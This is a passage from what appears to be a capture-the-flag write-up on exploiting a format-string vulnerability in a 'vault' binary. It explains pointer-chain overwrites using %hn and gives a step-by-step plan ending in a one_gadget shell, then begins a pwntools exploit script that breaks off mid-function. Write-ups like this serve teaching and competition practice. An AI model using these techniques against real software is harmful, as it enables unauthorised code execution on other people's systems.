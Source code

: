 ### pointer chains  
pointer chains can help you if you have an address that points to another address that points close to the value you want to change.  
```
rsp+XXX   : x->y->z 
rsp+XXX(x): y->z
```
if you're `%hn` x then you'll modify the least siginificant 2 bytes of y and make it point to the our target so now it becomes
```
rsp+XXX   : x->pointer_to_target->target
rsp+XXX(x): pointer_to_target->target
```

so here's the final plan  

1. use fmt to leak some addresses.
2. use fmt as `"%{target_mem&0xffff}c%20$hn"`.&ensp;# this will make y become a pointer to target ($rbp-0x70)
3. use fmt as `"%47$ln"`.&ensp;# this will set [$rbp-0x70]=NULL
4. pop $rbp from the stack.
5. one_gadget.
6. profit.

and here's the full exploit
```py
from pwn import *
from ctypes import CDLL
from math import floor
from ctypes import CDLL
import traceback

os.chdir(os.path.dirname(os.path.abspath(__file__)))
os.chdir('../app')

ENTRY_SIZE = 0x188

context.log_level   = 'CRITICAL'
context.binary = e  = ELF('./vault',checksec=False)
libc                = ELF("./libc/libc.so.6",checksec=False)
r                   = None

# the index is needed for entries[idx] even after we ret2main the idx will be incremented
# since it's in the .data section and the compiler thought it's a good idea to not reinitialize it
# in main . it's initialized in the elf and that's enough.
idx = 0

libc_cdll   = CDLL("./libc/libc.so.6")
global_key  = b'\1'*64

def check_badbytes(payload):
    # checking for bad bytes that might trip scanf
    assert len([i for i in payload if i in b'\v\f\n\r\t ']) == 0

# wait for marker [menu end]
wfm = lambda : r.recvuntil(b'3. Exit\n')

def add(url:bytes, password:bytes,w=True):
    global r
    if w: wfm()
    r.sendline(b'1')
    r.sendlineafter(b'URL: ',url)
    r.sendlineafter(b'Password: ',password)

def view(i:int):
```